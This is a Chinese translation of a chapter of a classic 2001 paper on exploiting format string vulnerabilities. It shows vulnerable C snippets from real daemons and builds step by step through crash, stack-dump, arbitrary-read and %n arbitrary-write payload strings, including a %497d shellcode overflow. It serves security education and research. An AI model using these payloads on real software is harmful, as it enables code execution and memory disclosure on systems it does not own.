

# 三、格式化字符串漏洞

> 原文：[Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
> 
> 作者：scut@team-teso.net
> 
> 译者：[飞龙](https://github.com/wizardforcel)
> 
> 日期：2001.9.1
> 
> 版本：v1.2

格式化字符串漏洞的通常分类是“通道问题”。如果二类不同的信息通道混合为一个，并且特殊的转义字符或序列用于分辨当前哪个通道是激活的，这一类型的漏洞就可能出现。多数情况下，通道之一是数据通道，它不会解析，只会复制，而另一个通道是控制通道。

虽然对于其本身来说并不是件坏事，如果攻击者能够提供用于某个通道的输入，它可能很快成为严重的安全问题。通常存在错误的转义，或者反转义的途径，或者忽视了某个层面，就像格式化字符串漏洞中那样。所以我们总结一下：通道问题本身没有任何漏洞，但是它们使得 bug 可以利用。

为了展示它背后的普遍问题，这里是一个常见通道问题的列表：

| 场景 | 数据通道 | 控制通道 | 安全问题 |
| --- | --- | --- | --- |
| 电话系统 | 声音或数据 | 控制音调 | 线路控制 |
| PPP 协议 | 传输数据 | PPP 命令 | 流量放大 |
| 栈 | 栈数据 | 返回地址 | 返回地址控制 |
| Malloc 缓冲区 | Malloc 数据 | 管理信息 | 内存写入 |
| 格式化字符串 | 输出字符串 | 格式化参数 | 格式化函数控制 |

回到特定的格式化字符串漏洞，有两种典型的场景，其中产生了格式化字符串漏洞。

第一类（Linux rpc.statd 和 IRIX telnetd 中）。漏洞存在于`syslog`的第二个参数中。格式化字符串部分是用户提供。

```
char tmpbuf[512];

snprintf (tmpbuf, sizeof (tmpbuf), "foo: %s", user); 
tmpbuf[sizeof (tmpbuf) - 1] = ’\0’; 
syslog (LOG_NOTICE, tmpbuf);
```

第二类（wu-ftpd 和 Qualcomm Popper QPOP 2.53 中）。部分由用户提供的字符串简介传给了格式化函数。

```
int Error (char *fmt, ...);

... 
int someotherfunc (char *user) { 
    ...
    Error (user); 
    ...
} 
...
```

虽然第一类漏洞能够由自动化工具安全监测（例如 pscan 或 TESOgcc），只有工具被告知函数`Error`用作格式化函数，第二类漏洞才能检测出来。

> 但是，你可以自动化识别源码中的额外格式化函数，以及它们的参数的过程，所以总之，寻找格式化字符串的过程可以完全自动化。你甚至可以归纳出，如果有这样的工具来完成这件事，并且它没有在你的源码中发现格式化字符串漏洞，你的源码就没有这类漏洞。这不同于缓冲区溢出漏洞，其中即使由资深审计者手动审计了源码，还是会错过漏洞，并且没有可靠的方式来自动化找出它们。

## 3.1 我们能够控制什么？

通过提供格式化字符串，我们就能够控制格式化函数的行为。我们现在需要检验我们具体能够控制什么，以及如何使用它来扩展这个对进程的部分控制，来完全控制执行流。

## 3.2 使程序崩溃

使用格式化字符串漏洞的简单攻击，就是使进程崩溃。这对于某些事情是实用的，例如使守护进程崩溃，它会转储核心，并且在核心转储中有一些有用的数据。或者在一些网络攻击中，让一个服务无法响应十分有用，例如 DNS 伪造。

但是，在使其崩溃中有一些趣味。几乎所有 UNIX 系统中，内核都会检测非法指针访问，并且进程会接收到`SIGSEGV`信号。通常程序会终止并转储核心。

通过利用格式化字符串，我们可以轻易触发一些无效指针访问，通过仅仅提供像这样的格式化字符串：

```
printf ("%s%s%s%s%s%s%s%s%s%s%s%s");
```

由于`%s`展示某个地址中的内存，这个地址位于栈上，栈上也储存了大量其他数据。我们就有很大机会来从非法地址服务数据，这个地址并没有映射。同时，多数何世华函数的实现提供了`%n`参数的功能，他可以用于向栈上的地址写入。如果它执行了几次，也一定会产生崩溃。

## 3.3 查看进程内存

如果我们可以查看格式户函数的回复 – 也就是输出字符串 – 我们就可以从中收集有用信息，因为它是我们所控制的行为的输出。而且我们可以使用这个结果，来获得我们的客户端字符串做了什么，以及进程的布局是什么样的概览。

这对于很多东西都很使用，例如为真正的利用寻找正确的偏移，或者仅仅是重新构造目标进程栈帧。

### 3.3.1 查看栈

我们可以展示栈内存的一些部分，通过像这样使用格式化字符串：

```
printf ("%08x.%08x.%08x.%08x.%08x\n");
```

这可以工作，因为我们让`printf`函数来从栈中获取五个参数，并将其展示为 8 位填充的十六进制数值。所以可能的输出是：

```
40012980.080628c4.bffff7a4.00000005.08059c04
```

这是栈内存的部分转储，从当前的栈底一直到栈顶 – 假设栈向低地址增长。取决于格式化字符传缓冲区的大小，以及输出缓冲区的大小，使用这种技巧，你可以或多或少重构栈内存的一部分。在一些情况下，你甚至可以获取整个栈内存。

栈的转储提供了关于程序流以及函数局部变量的重要信息，并且可能对于寻找正确偏移以便成功利用有所帮助。

### 3.3.2 查看任何地址的内存

我们也可以查看不同于栈内存的任意地址。为此，我们需要让格式化函数从我们可以提供的某个地址展示内存。这就有两个问题：首先，我们需要找到一个格式化字符串，它将某个地址（传值）用作栈的参数，并且展示其中的内存，并且我们需要提供这个地址，我们在第一种情况中足够幸运，由于`%s`参数就是干这个的，它展示内存 – 通常是 ASCIIZ 字符串 – 从栈上提供的地址。所以剩下的问题是，如何将这个栈上的地址放到正确的位置上。

我们的格式化字符串通常位于栈上，所以我们已经距离完全控制这个区域非常近了，格式化字符串就在这里。格式化函数在内部维护一个指针，指向当前格式化参数的栈区域。如果我们能够将这个指针指向一块可控的内存区域，我们就能向`%s`参数提供一个地址。为了修改栈指针，我们可以仅仅使用假的参数，它会通过打印垃圾来挖掘栈区。

> 这里我们假设我们能够完全控制整个字符串。我们稍后会看到，部分控制，字符串过滤，空字节包含的地址，以及类似的问题都会存在，无论何时利用字符串格式化漏洞。

```
printf ("AAA0AAA1_%08x.%08x.%08x.%08x.%08x");
```

`%08x` 参数使格式化函数内部的栈指针向栈顶方向增加。将这个参数增加之后，栈指针就指向了我们的内存：格式化字符串本身。格式化函数总是维护最低的栈帧，所以如果我们的缓冲区完全在栈上，它一定会在当前栈指针的上面。如果我们正确选择了`%08x`的数值，我们就能够展示任意地址的内存，通过向我们的字符串附加`%s`。在我们的例子中，地址是非法的，它是`AAA0`。让我们将其换成真实的地址。

例如：

```
address = 0x08480110 
// address (encoded as 32 bit le string): "\x10\x01\x48\x08"
printf ("\x10\x01\x48\x08_%08x.%08x.%08x.%08x.%08x|%s|");
```

就会转储`0x08480110`的内存，直到到达了空字符。通过动态增加内存地址，我们可以查看整个进程空间。甚至可以创建远程进程的核心转储，就像映像那样，以及从中重新构建二进制。寻找利用不成功的原因也是很有用的。

如果我们不能通过使用 4 字节的 POP 来达到精确的格式化字符串的边界，我们需要填充格式化字符串，通过前置一个、两个或三个垃圾字符。这就好比缓冲区溢出利用中的对齐。

> 我们不能够按位移动栈指针，反之我们移动格式化字符串本身，以便到达栈指针的四字节边界，并且我们可以使用多个四字节 POP 来到达它。

## 3.4 任意内存覆盖

漏洞利用的圣杯就是控制进程的指令指针。在多数情况下，指令指针（通常命名为 IP，或者 PC）是一个 CPU 中的寄存器，并不能直接修改，因为只有机器指令可以修改它。但是如果我们能够改动机器指令，我们就已经控制了它。所以我们不能直接控制进程。通常，进程比起当前的攻击者拥有更多的权限。

反之，我们需要寻找修改指令指针的指令，并且影响这些指令修改它的方式。这听起来很复杂，但是多数情况下这非常简单，因为有些指令从内存获取指令指针，并且跳到那里。所以在多数情况下，控制了这部分内存，其中储存了指令指针，就控制了指令指针本身。这就是多数缓冲区溢出的工作方式。

在两阶段的过程中，首先要覆盖保存的指令指针，之后程序会指令一个合法的指令，它将控制流转移到攻击者提供的地址中。

我们会检测一些不同的方式，使用格式化字符串漏洞来完成它。

### 3.4.1 利用 - 类似于常见的缓冲区溢出

格式化字符串漏洞有时提供了一个在缓冲区长度周围的方式，并且和常见的缓冲区溢出的利用方式相似。这是出现在 QPOP 2.53 和 bftpd 中的代码：

```
char outbuf[512]; 
char buffer[512];

sprintf (buffer, "ERR Wrong command: %400s", user); 
sprintf (outbuf, buffer);
```

这种例子通常深藏在真实的代码中，并且不会那么明显，就像上面的例子那样。通过提供一个特殊的格式化字符串，我们就能够绕过`%400s`的限制：

```
"%497d\x3c\xd3\xff\xbf<nops><shellcode>"
```

任何东西都和常见的缓冲区溢出类似，只是开头 – `%497d` – 不同。在常见的缓冲区溢出中，我们覆盖了函数帧在栈上的返回地址。在拥有该帧的函数返回值，它会返回到我们提供的地址。地址指向`<nop>`中的某个地方。有一些不错的文章，描述了这一利用方式，并且如果这个例子对于你来说还不够清楚，你应该考虑首先阅读一篇入门文章，就像 [5] 那样。

它创建了长度为 497 的字符串。再加上错误信息（`ERR Wrong command:`），它超出了`outbuf`缓冲区四个字节。虽然`user`字符串只允许为 400 字节，我们可以通过不当使用格式化字符串参数来突破这个长度。由于第二个`sprintf`不检查其长度，它可以用于突破`output`的边界。现在我们写入一个返回地址`0xbfffd33c`，并且使用已知的旧办法来利用它，就像我们在任何缓冲区溢出中所做的那样。虽然任何允许拉伸的格式化参数都这样，例如`%50d`，`%50f`或者`%50s`，我们还是应该选择一个不会提领指令或者可能导致除零错误的参数。这就排除了`%50f`和`%50s`。我们只剩下了整数输出参数：`%u`、`%d`和`%x`。

GNU C 库包含一个 Bug，如果你使用 n 大于 1000 的`%nd`参数，它会导致崩溃。这是一种判断远程 GNU C 库的方式。如果你使用`%.nd`，它正产工作，除非你用了很大的值。有关这个长度的深入讨论，请见门户网站的文章 [3]。

### 3.4.2 利用 - 只通过格式化字符串

如果我们不能使用刚刚提到的简单的利用方式，我们仍旧可以利用这个过程。由此，我们可以扩展我们极其有限的控制 – 控制格式化函数的能力 – 到真实的执行流控制，它会执行我们的原始机器码。看看这段代码，它在 wu-ftpd 2.6.0 中发现。

```
char buffer[512];

snprintf (buffer, sizeof (buffer), user); 
buffer[sizeof (buffer) - 1] = ’\0’;
```

在上面的代码中，我们不能通过插入某些“拉伸”格式参数来扩大缓冲去，因为程序使用了安全的`snprintf`函数来确保我们不能突破`buffer`。最开始它像是，我们不能做很多有用的事情，除了使程序崩溃，并且窥探到一些内存。

让我们回忆提到过的格式化参数。`%n`参数将已经打印的字节数，写入到我们所选的变量中。通过将整数指针放置到栈上作为参数，变量地址被提供给格式化函数。

```
int i;

printf ("foobar%n\n", (int *) &i); 
printf ("i = %d\n", i);
```

它会打印`i = 6`。使用我们在上面使用的相同方法来打印任何地址的内存，我们可以写入任意地址：

```
"AAA0_%08x.%08x.%08x.%08x.%08x.%n"
```

使用`%08x`参数，我们使格式化函数的内部栈指针增加了四个字节。我们这样做，知道这个指针指向了我们格式化字符串的开头（`AAA0`）。这可以工作，因为我们的格式化字符串通常位于栈上，在我们的格式化函数栈帧的顶部。`%n`向地址`0x30414141`写入，它由字符串`AAA0`表示。通常这会使程序崩溃，由于地址没有映射。但是如果我们提供了一个正确映射并且可写的地址，这可以工作，并且我们在在该地址覆盖了四个字节：

```
"\xc0\xc8\xff\xbf_%08x.%08x.%08x.%08x.%08x.%n"
```

上面的格式化字符串会将`0xbfffc8c0`的四个字节覆盖为一个小型整数。我们已经完成了目标之一，我们可以写入任意地址。但是我们不能控制我们刚才缩写的竖直 – 但是这也会改变的。

我们所写的竖直 – 由格式化函数写入的字符储量 – 取决于格式化字符串。因为我们控制了格式化字符串，我们至少可以影响这个数量，通过写入或多或少的字节：

```
int a; 
printf ("%10u%n", 7350, &a); 
/* a == 10 */

int a; 
printf ("%150u%n", 7350, &a); 
/* a == 150 */
```

通过使用伪造的参数`%nu`，我们就能控制由`%n`写入的数量，至少一位。但是对于写入较大数量来说 – 例如地址 – 这还不足够，所以我们需要找到一种方式来写入任意数据。

x86 架构上的整数以四个字节储存，小端序，最低字节在内存的开始。所以例如`0x0000014c`的数值在内存中为`\x4c\x01\x00\x00`。对于格式化函数中的数量，我们可以控制最低字节，也就是内存中首先储存的字节，通过使用伪造的`%nu`参数来修改它。

例如：

```
unsigned char foo[4];

printf ("%64u%n", 7350, (int *) foo);
```

当`printf`函数返回时，`foo[0]`包含`\x40`，它等于 64，我们使用这个数值来增加计数器。

但是对于一个地址，我们需要完全控制四个字节。如果我们不能一次写入四个字节，我们可以尝试在一行中，写入四次，一次写入一个字节。在多数 CISC 架构中，能够写入未对齐的任意地址。这可以用于写入内存的第二个低字节，其中储存了地址，就像：

```
unsigned char canary[5]; 
unsigned char foo[4];

memset (foo, ’\x00’, sizeof (foo)); 
/* 0 * before */ strcpy (canary, "AAAA");

/* 1 */ printf ("%16u%n", 7350, (int *) &foo[0]); 
/* 2 */ printf ("%32u%n", 7350, (int *) &foo[1]); 
/* 3 */ printf ("%64u%n", 7350, (int *) &foo[2]); 
/* 4 */ printf ("%128u%n", 7350, (int *) &foo[3]);

/* 5 * after */ printf ("%02x%02x%02x%02x\n", foo[0], foo[1], foo[2], foo[3]); 
printf ("canary: %02x%02x%02x%02x\n", canary[0], canary[1], canary[2], canary[3]);
```

返回了输出`10204080`和`canary: 00000041`。我们将我们所指向的整数的低地址字节覆盖了四次。通过每次增加指针，低地址字节在我们想要写入的内存中移动，并允许我们储存完全任意的数据。

你可以在图一的第一行看到，所有八个字节都没有被我们的覆盖代码访问。从第二行开始，我们执行了四次覆盖，每一步都向右提升一个字节。最后一行展示了最终的预期状态：我们覆盖了`foo`数组的所有四个字节，但是这样做的时候，我们破坏了`canary`的三个字节。我们包含了`canary`数组，只是为了看到我们覆盖了不想覆盖的内存。



图一：四阶段的地址覆盖

虽然这个方式看起来复杂，它也可以用于覆盖任意地址的任意数据。为了解释，我们现在为止只对每个格式化字符串使用了一次写入，但是他可以在一个格式化字符串内执行多次写入。

```
strcpy (canary, "AAAA"); 
printf ("%16u%n%16u%n%32u%n%64u%n", 1, (int *) &foo[0], 1, (int *) &foo[1], 1, (int *) &foo[2], 1, (int *) &foo[3]);

printf ("%02x%02x%02x%02x\n", foo[0], foo[1], foo[2], foo[3]); 
printf ("canary: %02x%02x%02x%02x\n", canary[0], canary[1], canary[2], canary[3]);
```

我们使用参数`1`作为`%u`填充的伪造参数。同样，填充发生了改变，因为字符数量在我们写入`32`的时候已经是`16`了。所以我们只需要添加`16`个字符，而不是`32`个，来获取我们想要的结果。

这是个特殊案例，其中所有字节在写入过程中递增。但是通过一个微小的修改，我们也可以写入`80 40 20 10`。由于我们写入整数并且顺序是小端的，在写入过程中只有最低地址字节是重要的。通过使用`0x80 0x140 0x220 0x310`的计数器，我们就可以构造预期的字符串。计算写入字符预期数量的计数器的代码是这个：

```
write_byte += 0x100; 
already_written %= 0x100; 
padding = (write_byte - already_written) % 0x100; 
if (padding < 10) padding += 0x100;
```

其中`write_byte`是我们想要创建的字节，`already_written`是当前写入数量，由格式化函数维护，`padding`是我们已经使计数器增加的字节数，例如：

```
write_byte = 0x7f; 
already_written = 30;

write_byte += 0x100; /* write_byte is 0x17f now */ 
already_written %= 0x100; /* already_written is 30 */

/* afterwards padding is 97 (= 0x61) */ 
padding = (write_byte - already_written) % 0x100; 
if (padding < 10) padding += 0x100;
```

现在格式化字符串`%97u`会增加`%n`计数器，使最低地址字节等于`write_byte`。最后检查了填充是否低于 10，这非常需要注意。一个简单的整数输出，例如`%u`最多可以生成十个字符的字符串，取决于所输出的整数值。如果所需长度大于我们指定的填充，假如我们想要使用`%2u`输出`1000`，我们的值就会丢弃，以便不会丢失任何有意义的输出。通过确保我们的填充永远大于 10，我们可以使`already_written`的数值永远保持精确，它是格式化函数维护的计数器，由于我们总是使用格式化参数中的长度选项，写入大量的输出，就像我们指定的那样。

> 这取决于格式化函数所运行的操作系统的默认字长，我们假设这里是基于 ILP32 的架构。

在实践过程中，为了利用这种漏洞，唯一剩下的事情就是将参数以正确的顺序放到栈上，并且使用栈的 POP 序列来增加栈指针。它看起来像：

```
 A
<stackpop><dummy-addr-pair * 4><write-code>
```

> 译者注：我更推荐把`dummy-addr-pair`放在`stackpop`前面，这样偏移数量更小，`stackpop`长度更短，而且`stackpop`的长度就不会影响偏移，也不需要对齐。

*   `stackpop`：栈的 POP 序列，它会弹出参数，增加栈指针。一旦开始处理`stackpop`，格式化函数的内部栈指针就会指向`dummy-addr-pair`字符串。

*   `dummy-addr-pair`：四对伪造整数值，和要写入的地址。每一对中，地址逐个递增，伪造的整数可以是不含空字符任何东西。

*   `write-code`：格式化字符串实际写入内存的部分，通过使用`%{n}u%n`偶对，其中`{n}`大于 10。第一个部分用于增加或溢出格式化函数内部字节写入计数器的最低地址字节，`%n`用于将这一数值写入`dummy-addr-pair`部分中的地址。

`write-code`需要修改来匹配由`stackpop`写入的字节数，因为当格式化函数解析`write-code`的时候，`stackpop`已经向输出写入了一些字符 – 格式化函数的计数器已经不是从零开始了，并且这个应该考虑到。

我们所写入的地址叫做返回地址位置，简写为`retloc`，我们使用格式化字符串在此处创建的地址叫做返回地址，简写为`retaddr`。